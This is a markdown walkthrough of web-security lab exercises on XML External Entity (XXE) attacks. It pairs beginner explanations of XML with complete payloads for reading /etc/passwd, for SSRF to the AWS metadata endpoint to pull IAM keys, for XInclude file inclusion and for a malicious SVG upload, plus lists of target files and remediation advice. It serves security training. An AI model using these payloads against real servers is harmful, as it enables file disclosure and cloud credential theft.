





# 🧠Lab-1 XML External Entity (XXE) - File Read via `/etc/passwd`

---

## 📝 Overview

This lab demonstrates a basic XML External Entity (XXE) vulnerability where attacker-controlled XML is parsed unsafely by the server.

Goal:

Force the server’s XML parser to read local file:

```txt
/etc/passwd
```

Core idea:

Attacker injects malicious external entity
        ↓
XML parser loads server file
        ↓
File contents reflected in response

---

## 🧭 What Is The Topic?

### 📝 Phase 1 — What Is XML? (From Absolute Scratch)

Before XXE, you MUST understand XML properly first.

Because XXE is basically:

```txt
abusing XML features
```

So first we build XML foundation.

---

## ⚠️ What Is XML?

XML means:

```txt
eXtensible Markup Language
```

---

## 🧠 Easy Definition

XML is:

```txt
a format for storing and transferring data
```

Just like:

```txt
JSON
CSV
YAML
```

---

## 🌍 Simple Real-Life Analogy

Imagine two offices exchanging forms.

Example:

```txt
Office A:
Name = Medusa
Age = 20
```

They need a structured format to send data.

XML is one way to structure that data.

---

## ⚠️ Example of XML

```xml
<user>
   <name>Medusa</name>
   <age>20</age>
</user>
```

---

## 🧠 Understanding This Slowly

### ⚠️ `<user>`

This is called:

```txt
tag
```

Like a container.

---

### ⚠️ `<name>Medusa</name>`

Means:

```txt
name = Medusa
```

---

### ⚠️ `<age>20</age>`

Means:

```txt
age = 20
```

---

## 🧠 So XML Is Basically

```txt
data wrapped inside tags
```

---

## ⚠️ Why XML Was Created

Long ago websites/apps needed:

• structured data exchange

• universal format

• machine-readable communication


So XML became popular.

Especially for:

```txt
APIs
enterprise systems
banking
SOAP
Android configs
document formats
```

---

## ⚠️ Why Not Plain Text?

Without XML:

```txt
Medusa 20 Pakistan
```

Machine gets confused:

• what is name?

• what is age?

• what is country?

---

## 🧠 XML Adds Structure

```xml
<user>
   <name>Medusa</name>
   <age>20</age>
   <country>Pakistan</country>
</user>
```

Now meaning is clear.

---

## ⚠️ Important XML Rule

Every opening tag needs closing tag.

GOOD:

```xml
<name>Medusa</name>
```

BAD:

```xml
<name>Medusa
```

---

## 🧠 XML Is Hierarchical

Like folders inside folders.

Example:

```xml
<store>
   <product>
      <name>Phone</name>
      <price>100</price>
   </product>
</store>
```

Tree structure.

---

## 🔄 Compare XML vs JSON

### ⚠️ XML

```xml
<user>
   <name>Medusa</name>
</user>
```

---

### ⚠️ JSON

```json
{
  "name":"Medusa"
}
```

Both store data.

---

## ⚠️ Why XML Still Exists

Even though JSON is modern/popular:

• many old systems still use XML

• enterprise software loves XML

• SOAP APIs use XML heavily

• many parsers still support dangerous old features


That is why XXE still matters.

---

# 🧭 Phase 2 — Where XML Is Used

---

## ⚠️ Browser ↔ Server

Example:

```txt
Check stock
Submit payment
Transfer data
API request
```

---

## 📝 Example Request

Browser sends:

```xml
<stockCheck>
   <productId>381</productId>
</stockCheck>
```

Server processes it.

---

## ⚠️ Server Parses XML

Important word:

```txt
XML Parser
```

---

## 🧠 What Is Parser?

Parser means:

```txt
software that reads and understands XML
```

Like translator.

---

## 🌍 Real-Life Analogy

Parser is like office clerk.

You hand XML form:

```xml
<name>Medusa</name>
```

Parser says:

```txt
Okay, name = Medusa
```

---

# ⚠️ Phase 3 — Advanced XML Features

Now we enter dangerous territory.

XML has extra features besides normal tags.

One of them:

```txt
Entities
```

---

## 🧠 What Is Entity?

Entity is like:

```txt
variable/shortcut
```

---

## ⚠️ Example

```xml
<!ENTITY company "OpenAI">
```

Then:

```xml
<name>&company;</name>
```

Parser converts into:

```xml
<name>OpenAI</name>
```

---

## 🧠 Why Entities Were Created

Convenience.

Imagine repeating same text 100 times.

Instead:

```txt
Use variable
```

---

# ⚠️ Phase 4 — External Entities (IMPORTANT)

Now dangerous part.

---

## 📝 Normal Entity

```xml
<!ENTITY test "hello">
```

Value is internal text.

---

## ⚠️ External Entity

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Now parser says:

```txt
Instead of text,
load content from external source
```

---

# 🚨 HUGE DIFFERENCE

### ⚠️ Internal Entity

```txt
Value written directly
```

---

### ⚠️ External Entity

Value loaded from:

```txt
- file
- URL
- external resource
```

---

## 🧠 Why This Was Created?

Originally for:

```txt
importing documents
modular XML files
loading external resources
```

Not designed with security in mind.

---

# ⚠️ Phase 5 — What Is DOCTYPE?

Entities are usually declared inside:

```txt
DOCTYPE
```

---

## 📝 Example

```xml
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

This means:

```txt
Define external entity named xxe
```

---

# ⚠️ Phase 6 — How XXE Happens

Now everything connects.

---

## 📝 Normal XML

```xml
<stockCheck>
   <productId>381</productId>
</stockCheck>
```

---

## 🚨 Attacker XML

```xml
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<stockCheck>
   <productId>&xxe;</productId>
</stockCheck>
```

---

## 🧠 What Parser Does

Parser sees:

```txt
&xxe;
```

Then loads:

```txt
/etc/passwd
```

Then inserts file content.

---

## ⚠️ Final Parsed XML Internally

Conceptually:

```xml
<productId>
root:x:0:0...
</productId>
```

---

## 🚨 Why This Is Dangerous

Because attacker can force server to:

```txt
read files
access internal URLs
send requests
leak secrets
```

---

## 🧠 Important Mental Model

XXE = tricking XML parser into becoming:

```txt
- file reader
- HTTP client
- internal network requester
```

---

# 🔄 Core Components Recap

| Component | Meaning |
|---|---|
| XML | Data format |
| Parser | Reads XML |
| Entity | Variable |
| External Entity | Loads file/URL |
| DOCTYPE | Place where entities defined |
| XXE | Abuse of external entities |

---

## 🎯 Final Foundation Mental Model

XML itself is not dangerous.

Danger starts when XML parser allows attacker-controlled external entities.

---

# 🔄 Lab Walkthrough

---

## 📝 Step 1 — Open Product Page

Visit any product.

Click:

```txt
Check stock
```

---

## 📝 Step 2 — Intercept Request

Capture request in Burp Suite.

You see:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<stockCheck>
   <productId>1</productId>
</stockCheck>
```

---

## 🧠 Understanding The Request

### ⚠️ XML Declaration

```xml
<?xml version="1.0" encoding="UTF-8"?>
```

Just tells parser:

```txt
this is XML
encoding used
```

---

### ⚠️ Main XML Data

```xml
<stockCheck>
   <productId>1</productId>
</stockCheck>
```

Meaning:

```txt
Check stock for product 1
```

---

## 📝 Step 3 — Inject DOCTYPE

Add:

```xml
<!DOCTYPE test [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

between:

```txt
XML declaration
stockCheck tag
```

---

## 🧠 Payload Breakdown

### ⚠️ DOCTYPE

Defines custom XML rules/entities.

---

### ⚠️ ENTITY

Creates entity named:

```txt
xxe
```

---

### ⚠️ SYSTEM

Tells parser:

```txt
load external resource
```

---

### ⚠️ file:///etc/passwd

Tells parser to open local Linux file.

---

## 🚨 Important

This reads:

```txt
SERVER FILESYSTEM
```

NOT victim machine.

---

## 📝 Step 4 — Use Entity

Replace:

```xml
<productId>1</productId>
```

with:

```xml
<productId>&xxe;</productId>
```

---

## ⚠️ Final Exploit Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<stockCheck>
   <productId>&xxe;</productId>
</stockCheck>
```

---

## 📸 Screenshot



---

# 🧠 Internal Server Processing

---

## ⚠️ Parser Sees

```txt
&xxe;
```

---

## ⚠️ Parser Resolves Entity

Checks:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Meaning:

```txt
Replace &xxe; with file contents
```

---

## ⚠️ Server Opens File

```txt
/etc/passwd
```

---

## ⚠️ XML Internally Becomes

```xml
<productId>
root:x:0:0:root:/root:/bin/bash
...
</productId>
```

---

## ⚠️ Application Reflects Value

Response shows:

```txt
Invalid product ID:
root:x:0:0:root...
```

---

## 🧠 Why File Appears In Response

Because application reflects:

```txt
productId value
```

and attacker replaced it with:

```txt
file contents
```

---

# 🌍 Real-World Scenarios

---

## ⚠️ 1. Reading Sensitive Files

Targets:

```txt
/etc/passwd
config files
API keys
cloud credentials
```

---

## ⚠️ 2. SSRF Through XXE

Parser forced to request:

```txt
http://internal-admin
```

---

## ⚠️ 3. Cloud Metadata Theft

Common cloud target:

```txt
http://169.254.169.254
```

AWS/GCP/Azure metadata.

---

## ⚠️ 4. Blind XXE

No visible response.

Attacker exfiltrates data:

```txt
DNS
HTTP callbacks
external servers
```

---

# 🎯 High Value Endpoints

Look for:

```txt
SOAP APIs
XML upload features
stock check APIs
mobile app APIs
payment gateways
SAML authentication
SVG uploads
Office document parsers
```

---

# 🔗 Attack Variations

| Variation | Goal |
|---|---|
| File Read XXE | Read server files |
| SSRF XXE | Access internal systems |
| Blind XXE | Out-of-band exfiltration |
| Error-Based XXE | Leak via parser errors |

---

# 🛡️ Remediation

---

## ⚠️ Disable External Entities

Best defense:

```txt
Disable DTDs and external entities completely
```

---

## ⚠️ Use Safe XML Parsers

Use hardened parsers with:

```txt
XXE disabled
entity resolution disabled
```

---

## ⚠️ Prefer JSON

Avoid XML when unnecessary.

---

## ⚠️ Input Validation

Reject:

```txt
DOCTYPE
ENTITY
SYSTEM keywords
```

---

## ⚠️ Least Privilege

Ensure server process:

```txt
cannot access sensitive files
restricted filesystem access
```

---

# 🎯 One-Line Summary

XXE occurs when attacker-controlled XML is parsed unsafely, allowing external entities to read server files or access internal systems.

---

# 🧠Lab-2 (XXE + SSRF + Cloud Metadata Theft)

---

## 📝 Overview

This lab combines:

XXE + SSRF + Cloud Metadata Theft

Goal:

Use XXE to force server to access AWS EC2 metadata service
and steal IAM secret key.

This is VERY realistic.

Real companies get hacked exactly like this.

---

## 🌐 First Understand EC2 Metadata

Before lab, understand this concept first.

---

## ☁️ What Is EC2?

EC2 is Amazon AWS cloud server.

Basically:

Virtual machine running in AWS cloud

---

## 📡 What Is Metadata Service?

AWS gives every EC2 server a special internal endpoint:

```txt
http://169.254.169.254
```

This endpoint contains:

server information

IAM credentials

tokens

config

networking data

---

## ⚠️ Important

This endpoint is:

ONLY accessible from INSIDE the server itself

External attackers normally cannot access it.

---

## 🏢 Real-Life Analogy

Imagine secret employee room inside office.

Outside people:

❌ cannot enter

Employees inside building:

✅ can access

Server = employee.

Attacker tricks server into entering room.

---

## 💥 Why This Is Dangerous

Sometimes metadata contains:

AWS access keys

If attacker steals them:

access cloud resources

dump databases

destroy infrastructure

create admin accounts

Very critical.

---

## 🔄 Core Attack Flow

```txt
Attacker
   ↓
Malicious XML
   ↓
XML Parser
   ↓
Server requests metadata endpoint
   ↓
Secrets returned
```

---

## 🧭 Lab Walkthrough

---

### 🔎 Step 1 — Open Product

Visit any product page.

Click:

```txt
Check stock
```

---

### 📥 Step 2 — Intercept Request

Capture request in Burp.

Original XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<stockCheck>
   <productId>1</productId>
</stockCheck>
```

---

### 🧪 Step 3 — Add External Entity

Add this between:

XML declaration

stockCheck tag

```xml
<!DOCTYPE test [
   <!ENTITY xxe SYSTEM "http://169.254.169.254/">
]>
```

---

### 🧬 Step 4 — Use Entity

Replace:

```xml
<productId>1</productId>
```

with:

```xml
<productId>&xxe;</productId>
```

---

## 🚀 Final Payload



```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
   <!ENTITY xxe SYSTEM "http://169.254.169.254/">
]>

<stockCheck>
   <productId>&xxe;</productId>
</stockCheck>
```

---

## ⚙️ What Happens Internally

Parser sees:

```txt
SYSTEM "http://169.254.169.254/"
```

Parser thinks:

```txt
"Oh, I should fetch this URL"
```

---

## 🌍 Server Sends Request

Important:

SERVER sends request
NOT your browser

This is SSRF.

---

## 📂 Response Appears

You get something like:

```txt
latest
```

or folder names.

---

## 📁 Why Folder Names?

Metadata endpoint behaves like filesystem/directories.

You must explore step-by-step.

---

## 🧠 Important Concept — Enumeration

You now:

browse internal metadata endpoint like folders

---

### 🔄 Step 5 — Explore Metadata Paths

Update payload URL repeatedly.

---

### 📍 First

```txt
http://169.254.169.254/
```

Response:

```txt
latest
```

---

### 📍 Next

```txt
http://169.254.169.254/latest/
```

May show:

```txt
meta-data
```

---

### 📍 Next

```txt
http://169.254.169.254/latest/meta-data/
```

May show many directories:

```txt
hostname
iam
public-ipv4
etc
```

---

## 🎯 Important Target

Eventually reach:

```txt
http://169.254.169.254/latest/meta-data/iam/
```

Then:

```txt
security-credentials/
```

Then:

```txt
admin
```

---

## 🔥 Final URL

```txt
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
```

---

## 🚨 Final Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>

<stockCheck>
   <productId>&xxe;</productId>
</stockCheck>
```

---

## 📤 Final Response

Returns JSON:

```json
{
  "AccessKeyId":"...",
  "SecretAccessKey":"...",
  "Token":"..."
}
```

---

## ✅ Lab Solved

You copy:

```txt
SecretAccessKey
```

---

## 🧠 Understanding The Important Concept

This lab is NOT about reading files.

This lab is about:

forcing server to access INTERNAL CLOUD SERVICES

Huge difference.

---

## 🌐 Why 169.254.169.254?

Special IP reserved for:

link-local services

cloud metadata services

AWS uses it heavily.

---

## 🚫 Why Attacker Cannot Access Directly

From internet:

❌ blocked

From vulnerable server:

✅ accessible

---

## 🌍 Real Attack Scenario

Real companies accidentally expose:

AWS IAM keys

Azure tokens

GCP metadata

via:

XXE

SSRF

open redirects

image fetchers

---

## 🧠 Important Mental Model

```txt
XXE SSRF turns XML parser into:
- internal browser
- internal API client
- cloud credential thief
```

---

## 🎯 High Value Targets

```txt
Target                     Why Important

169.254.169.254           Cloud credentials
localhost/admin           Internal admin panels
Internal APIs             Hidden services
Kubernetes APIs           Cluster compromise
Redis/Mongo               Database access
```

---

## 💣 Real-World Impact

Stealing IAM keys may allow:

S3 bucket access

database dumps

cloud takeover

crypto mining

ransomware deployment

Very severe.

---

## 🧠 One-Line Summary

XXE SSRF abuses the XML parser to make the server access internal cloud metadata services and leak sensitive credentials.

---

# 🧠Lab-3 XInclude-Based XXE Injection

---

## 📝 Overview

This lab demonstrates:

XInclude-based XXE Injection

Core concept:

Attacker cannot inject full XML document,
so classic XXE fails.

But attacker can still abuse XInclude
inside a single XML value.

This is a very important real-world XXE bypass technique.

---

## 🌐 What Is The Topic?

---

### ⚠️ Problem Scenario

Normally, classic XXE requires:

DOCTYPE

ENTITY

Example:

```xml
<!DOCTYPE test [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

But many modern applications:

sanitize DOCTYPE

remove ENTITY

only allow partial XML injection

Developers think XXE is fixed.

But XML has another feature:

```txt
XInclude
```

which can still include external files.

---

## 📚 What Is XInclude?

XInclude is an XML feature used to:

include external content into XML

Like:

importing files

merging XML documents

including text into XML

---

## 🧠 Simple Mental Model

```txt
Classic XXE:
Define external entity

XInclude:
Directly include external file
```

---

## 🧬 XML Foundation Recap

---

### 🏷️ XML Namespace

```xml
xmlns:xi="http://www.w3.org/2001/XInclude"
```

Means:

Enable XInclude functionality

This is NOT:

a fetched URL

external HTTP request

attack target

It is simply:

namespace identifier

XML feature declaration

---

### 📌 XInclude Tag

```xml
<xi:include ...>
```

Means:

Use XInclude feature

---

## ⚖️ Important Difference

```txt
Component          Purpose

xmlns:xi           Enable XInclude feature
href=              Actual target file/resource
```

---

## 🧭 Lab Walkthrough

---

### 🔎 Step 1 — Open Product Page

Visit any product.

Click:

```txt
Check stock
```

---

### 📥 Step 2 — Intercept Request

Capture request in Burp.

Original request looks similar to:

```xml
<stockCheck>
   <productId>1</productId>
   <storeId>1</storeId>
</stockCheck>
```

---

### 🧠 Step 3 — Understand The Limitation

You control ONLY:

```xml
<productId>YOUR_INPUT</productId>
```

NOT full XML document.

So you cannot properly inject:

```xml
<!DOCTYPE ...>
```

Therefore:

Classic XXE is not possible.

---

### 💉 Step 4 — Inject XInclude Payload

Replace productId value with:



```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
   <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

---

### 📤 Step 5 — Send Request

Parser processes XML.

It encounters:

```xml
<xi:include ...>
```

Parser interprets this as:

```txt
"Include external content here."
```

---

### 📂 Step 6 — File Retrieval

Parser reads:

```xml
href="file:///etc/passwd"
```

Then loads local Linux file:

```txt
/etc/passwd
```

---

### ✅ Step 7 — Response Contains File

The application response includes:

contents of /etc/passwd

Lab solved.

---

## 🔍 Payload Breakdown

---

### 📦 Full Payload

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
   <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

---

### 📌 <foo>

Simple wrapper/container tag.

Can usually be any valid XML element.

---

### 🏷️ xmlns:xi="http://www.w3.org/2001/XInclude"

Enables XInclude namespace support.

Meaning:

```txt
"Parser, recognize xi:include tags."
```

NOT:

downloaded content

attack URL

external request

---

### ⚙️ <xi:include>

Triggers XInclude functionality.

Meaning:

```txt
Include external content here.
```

---

### 📝 parse="text"

Treat included file as plain text.

Without this:

parser may expect valid XML structure

---

### 📂 href="file:///etc/passwd"

Actual target resource.

Meaning:

Read local file:

```txt
/etc/passwd
```

---

## ⚙️ Internal Server Processing

```txt
Parser sees xi:include
        ↓
Loads /etc/passwd
        ↓
Inserts file contents into XML
        ↓
Application response leaks file
```

---

## 💥 Why This Works

Because XInclude:

does not require DOCTYPE

does not require ENTITY

works inside partial XML injection

---

## ⚖️ Important Difference vs Classic XXE

```txt
Classic XXE             XInclude XXE

Uses DOCTYPE            Uses XInclude
Uses ENTITY             Uses xi:include
Needs full XML control  Partial control enough
Often blocked           Often overlooked
```

---

## 🌍 Real-World Scenarios

XInclude attacks commonly appear in:

SOAP services

SAML systems

XML APIs

backend integrations

enterprise applications

mobile app XML parsers

---

## 🎯 High Value Targets

```txt
File                    Purpose

/etc/passwd             User accounts
/etc/shadow             Password hashes
AWS credentials files   Cloud access
SSH keys                Remote access
Config files            Database secrets
```

---

## 💣 Real-World Impact

Successful XInclude XXE may lead to:

local file disclosure

credential theft

cloud compromise

SSRF

lateral movement

server compromise

---

## 🛡️ Remediation

Secure XML parsing:

disable XInclude support

disable external entities

avoid parsing user-controlled XML

use hardened XML parsers

validate XML schemas strictly

---

## 🧠 Important Mental Models

```txt
Classic XXE =
Inject XML entity definitions

XInclude XXE =
Abuse XML include mechanism directly

Partial XML injection can still become XXE.
```

---

## 🧠 One-Line Summary

XInclude attacks abuse XML include functionality to retrieve local files even when the attacker controls only part of an XML document.

---

# 🖼️Lab-4 XXE via File Upload (SVG + Apache Batik)

---

## 📝 Overview

Previously:

XXE was triggered via direct XML request injection

Now new concept:

👉 Attacker uploads a file  
👉 That file secretly contains XML

This creates:

```txt
hidden XXE attack surface via file upload
```

---

## 🧠 What Is the Topic? (Full Theory)

---

### 🔹 1. Core Idea

Some file formats are actually:

👉 XML-based internally

So when server processes uploaded file:

XML parser runs behind the scenes

If XML features are enabled:

👉 XXE becomes possible

---

### 🔹 2. Key Mental Model

```txt
User uploads "image/document"
        ↓
Server internally parses XML
        ↓
XXE executes silently
```

---

### 🔹 3. Why This Happens

Developers assume:

```txt
“This is just an image upload system”
```

BUT:

👉 many formats use XML internally

So hidden attack surface appears.

---

### 🔹 4. XML-Based File Formats

```txt
Format     XML inside?

SVG        Yes
DOCX       Yes
PPTX       Yes
XLSX       Yes
SOAP       Yes
```

---

### 🔹 5. Why SVG is Dangerous

SVG:

```txt
Scalable Vector Graphics
```

image format

BUT fully XML-based

So:

👉 XML parser processes it

---

### 🔹 6. Apache Batik Role

Java SVG processing library

parses SVG XML

supports entity expansion

So:

👉 becomes XXE execution engine

---

## 🧭 Lab Walkthrough (Step-by-Step)

---

### 📤 Step 1 — Upload Feature Exists

Application allows:

comment posting

avatar upload

---

### 💉 Step 2 — Attacker Uploads SVG

Instead of normal image:

👉 attacker uploads malicious SVG file

---

### ⚙️ Step 3 — Server Processes File

Backend uses:

👉 Apache Batik

It:

parses XML

processes SVG structure

expands entities

---

### 📂 Step 4 — XXE Triggered

```txt
&xxe; → /etc/hostname content
```

---

### 🖼️ Step 5 — File Stored & Rendered

Server stores avatar:

```txt
/post/comment/avatars?filename=6.png
```

Then browser loads it.

---

### ✅ Step 6 — Result Appears

Inside avatar/image:

👉 /etc/hostname content appears



---

### 🎯 Step 7 — Submit Solution

Copy exact hostname and submit in lab UI.

---

## 💣 Final Payload

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="128px" height="128px"
     xmlns="http://www.w3.org/2000/svg">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

---

## 🔍 Breaking the Payload

---

### 📌 1. XML Declaration

```xml
<?xml version="1.0"?>
```

→ defines XML format

---

### 📌 2. DOCTYPE Block

```xml
<!DOCTYPE test [ ... ]>
```

→ enables entity definition

---

### 📌 3. External Entity

```xml
<!ENTITY xxe SYSTEM "file:///etc/hostname">
```

→ reads server file

---

### 📌 4. Entity Usage

```xml
&xxe;
```

→ injects file content into SVG output

---

## 🌍 Real-World Scenarios

---

### 🧑‍💻 1. Avatar Upload Systems

profile images

user avatars

---

### 🛠️ 2. File Conversion Services

SVG → PNG rendering

image resizing services

---

### 📄 3. Document Upload Systems

DOCX parsing

PDF generation pipelines

---

### ☁️ 4. Cloud Services

preview generation

thumbnail creation APIs

---

## 🎯 High Value Endpoints

```txt
/post/comment
/upload/avatar
/api/avatar
image processing backend (Batik, libxml, etc.)
```

---

## 🛡️ Remediation

---

### 🔒 1. Disable XML External Entities

disable DOCTYPE parsing

disable entity expansion

---

### 🔒 2. Secure XML Parsers

turn off external DTDs

use hardened XML config

---

### 🔒 3. File Upload Hardening

reject SVG if not needed

convert SVG → safe PNG server-side

---

### 🔒 4. Input Validation

sanitize uploaded XML-based files

enforce strict parsing rules

---

## 🧠 One-Line Summary

👉 “XXE via file upload happens when XML-based formats like SVG are parsed server-side and external entities are allowed to execute.”

---

# 🧠Lab-5 XXE via External DTD (Error-Based Exfiltration)

---

## 🔵 Overview

This is a Blind XXE vulnerability using External DTD injection and error-based data exfiltration.

Core idea:

```txt
Server parses XML input
        ↓
Server fetches attacker-controlled external DTD
        ↓
DTD reads sensitive file (/etc/passwd)
        ↓
Error message leaks file content
```

---

## 🟡 What is the Topic? (Full Theory + Concepts)

---

### 🔹 1. XML External Entity (XXE)

XXE is a vulnerability where:

XML parser processes attacker-controlled entities or DTDs

This allows:

file reading

SSRF

data leakage

internal system access

---

### 🔹 2. What is DTD? (IMPORTANT)

DTD = Document Type Definition

👉 It defines rules and structure of XML

Example purpose:

define entities

validate XML structure

reuse XML components

---

### 🔹 3. External DTD (Key Concept)

Normally DTD is inside XML:

👉 External DTD means:

DTD is loaded from external attacker-controlled URL

So server blindly fetches it and executes logic.

---

### 🔹 4. Parameter Entities (VERY IMPORTANT)

Written as:

```txt
%name;
```

Used inside DTD only.

👉 They allow dynamic XML logic execution.

---

### 🔹 5. Key Mental Model

```txt
XML Parser
